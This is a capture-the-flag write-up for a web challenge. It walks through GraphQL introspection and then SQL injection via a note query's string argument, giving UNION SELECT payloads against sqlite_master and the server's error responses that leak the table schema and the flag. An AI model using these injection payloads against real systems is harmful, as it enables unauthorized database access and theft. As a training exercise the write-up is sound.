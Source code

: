 
# Graphed 2.0

"graphed notes is finally here !!!!!! but it looks like something is still broken with that site"

`<link to website>`

<hr>

![Graphed Landing Page](images/graphed_landing.png)

On the root path `/`, we get a text input box to submit a note. However, when submitting an alert pops up that says
`sorry but this functionality is disabeled due to technical problems`.

Having a look at the source code there are some commented out rows:
```javascript
function create_note() {
    alert("sorry but this functionality is disabeled due to technical problems");
    //query_data = `mutation {createNote(body:${document.getElementById("note-content").value}, title:"anon note", username:"guest"){note{uuid}}}`;
    //fetch(`/graphql?query=mutation{createNote(body:"ww", title:"anon note", username:"guest"){note{uuid}}}`, {method: "POST"});
}
```

Using the `/graphql` path, we are able to query a database using GraphQL, with the `query` URL argument.

A GraphQL introspection to the following path gives us the all possible queries that can be made to the database:
```json
/graphql?query={ __schema { queryType { fields { name description args { name type {name }}}}}}

Response:
{
  "data": {
    "__schema": {
      "queryType": {
        "fields": [
          {
            "name": "node",
            "description": "The ID of the object",
            "args": [
                ...
            ]
          },
          {
            "name": "allNotes",
            "description": null,
            "args": [
                ...
            ]
          },
          {
            "name": "allUsers",
            "description": null,
            "args": [
                ...
            ]
          },
          {
            "name": "coolNotes",
            "description": null,
            "args": []
          },
          {
            "name": "getNote",
            "description": null,
            "args": [
              {
                "name": "q",
                "type": {
                  "name": "String"
                }
              }
            ]
          }
        ]
      }
    }
  }
}
```

The query `getNote` is the only query without any default count or pagination parameters, having only one parameter `q` that is of type `String`.

Lets try using the `getNote` query to inject some SQL code!

Passing our injection code to the argument `q` in `getNote`, we can retrieve all table names and SQL commands used to create every each table. 
```json
/graphql?query={ getNote(q: "2' AND 1=2 UNION SELECT tbl_name, sql, 1, 1 FROM sqlite_master --") { id }}

Response:
{
  "errors": [
    {
      "message": "Received incompatible instance \"('Notes', 'CREATE INDEX \"ix_Notes_title\" ON \"Notes\" (title)', 1, 1)\"."
    },
    {
      "message": "Received incompatible instance \"('Notes', 'CREATE TABLE \"Notes\" (\\n\\tuuid INTEGER NOT NULL, \\n\\ttitle VARCHAR(256), \\n\\tbody TEXT, \\n\\tauthor_id INTEGER, \\n\\tPRIMARY KEY (uuid), \\n\\tFOREIGN KEY(author_id) REFERENCES users (uuid)\\n)', 1, 1)\"."
    },
    {
      "message": "Received incompatible instance \"('users', 'CREATE TABLE users (\\n\\tuuid INTEGER NOT NULL, \\n\\tusername VARCHAR(256), \\n\\tPRIMARY KEY (uuid)\\n)', 1, 1)\"."
    },
    {
      "message": "Received incompatible instance \"('users', 'CREATE UNIQUE INDEX ix_users_username ON users (username)', 1, 1)\"."
    },
    {
      "message": "Received incompatible instance \"('العلم', 'CREATE TABLE العلم (id INTEGER PRIMARY KEY, flag TEXT NOT NULL)', 1, 1)\"."
    }
  ],
  "data": {
    "getNote": [
        ...
    ]
  }
}
```

Oddly enough we see a table called `العلم` which in arabic translates to "science". The `science` contain two columns, `id` and `flag`. 

Querying all rows from the `science` table we get:
```json
/graphql?query={ getNote(q: "2' AND 1=2 UNION SELECT id, flag, 1,1 FROM العلم --") { id } }

Response:
{
  "errors": [
    {
      "message": "Received incompatible instance \"(0, \"flag{h0p3_u_can't_r3@d_1t9176}\", 1, 1)\"."
    }
  ],
  "data": {
    "getNote": [
        ...
    ]
}
```

Givins us the flag:
```
flag{h0p3_u_can't_r3@d_1t9176}
```
